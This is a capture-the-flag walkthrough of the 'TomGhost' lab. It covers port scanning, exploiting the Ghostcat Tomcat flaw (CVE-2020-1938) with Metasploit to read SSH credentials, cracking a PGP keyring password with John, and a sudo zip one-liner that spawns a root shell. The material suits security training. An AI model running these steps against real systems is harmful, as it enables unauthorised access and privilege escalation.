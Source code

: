 # TomGhost

## Step 1: Footprinting/Enumerations

As always use nmap

`nmap -T3 -sC -sV -p- 10.10.90.90`

![nmap result]("")

Here we got the port 53 is port open but it is software protected thats why nmap result shows the tcpwrapper, 8080 and 9001 open and its http port so we can open 8080 port in browser.

![home page of port 8080]("")

here we got nothing intersting so lets research about the hint as given in CTF sub title

Hint: "Identify recent vulnerabilities to try exploit the system or read files that you should not have access to." + Port 8080 Webpage title.

After the research I got a amazing [Reference]("") about this vulnerability. This vulnerability CVE-ID and name is **CVE-2020-1938 - GostCat**.

## Step 2: Attack Begins

There is two way to attack the target.

1. EDB-ID : [Refrence]("")

2. Metasploit

Here we will use Metasploit approach.

start the msfdatabase using below command

`sudo msfdb start`

now lets start msfconsole

`msfconsole -q`

Now search the exploit, use the exploit and see the options

`search Ghostcat`

`use auxiliary/admin/http/tomcat_ghostcat`

![search exploit and show the options]("")

Set the taget IP in RHOSTS and run the exploit

`set RHOSTS 10.10.90.90`

`exploit`

![skyfuck ssh password]("")

Lets try to login this cridentials.

![skyfuck files]("")

After the login we got two file in present directory cridential.pgp and tryhackme.asc

## Research and Dycrypt

lets research about the asc file and how to dycrypt and here i got amazing [Reference]("https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key"). now we need to download this two files using python3 server

start the python3 server into the victim machine and after the server started we need to download the file in our kali machine using wget command.

now try to import the file.

![fail attempt]("")

but we can't import because it ask the password, so we  need to use **John** tool

`pgp2john credintial.txt > hash.txt`

`john hash.txt --wordlist=rockyou.txt`

![asc keyring password]("")

now once again try to import the asc key and dycrypt the cridintial.pgp

![merlin ssh password]("")

Now try to login using this merlin cridintial. and here we got our user first flag.

![user flag]("")

## Step 4: Enumerate for Privilege Escalation

`sudo -l`

here we can use zip command as root user. lets research about for zip exploit. and here I got a [Reference]("https://gtfobins.github.io/gtfobins/zip/#sudo")

`TF=$(mktemp -u)`

`sudo zip $TF /etc/hosts -T -TT 'sh #'`

![root flag]("")

Bingo!!!